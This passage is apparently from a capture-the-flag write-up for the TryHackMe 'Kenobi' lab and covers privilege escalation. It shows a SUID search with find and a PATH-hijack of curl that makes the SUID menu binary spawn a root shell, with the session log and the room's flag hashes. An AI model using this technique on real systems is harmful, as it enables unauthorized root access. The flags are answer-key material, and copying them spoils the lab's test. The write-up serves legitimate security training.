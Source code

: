 ```
d0b0f3f53b6caa532a83915e19224899
```
## 4. Task 4
  Search the machine for SUID binaries and pipe all the errors to /dev/null
  `find / -perm -u=s -type f 2>/dev/null`

  We see that `/usr/bin/menu` lets us run it and see whats available.
  ```
  kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice ""
  ```
  We select 1 and see that it sends a status check and get a `HTTP/1.1 200 OK`. Looking up
  the menu application we see that it send out the status check. One workaround we can try is to hijack the path with our own version of curl and running the SUID /usr/bin/menu to see what we can access.

  Using the menu program we can open /bin/sh as root and gain full access to the machines

  ```
  kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmos 777 curl
-bash: chmos: command not found
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# ls
curl
systemd-private-6353f8cb9a6343b38c8f4706ec81e921-systemd-timesyncd.service-qe1YQY
# pwd
/tmp
# cd /root
# ls
root.txt
# cat root.txt
177b3cd8562289f37382721c28381f02
  ```

## Review

For links
[1]:https://tryhackme.com/room/kenobi
[2]: ./resources/log.txt
[3]:
[4]:
[5]:
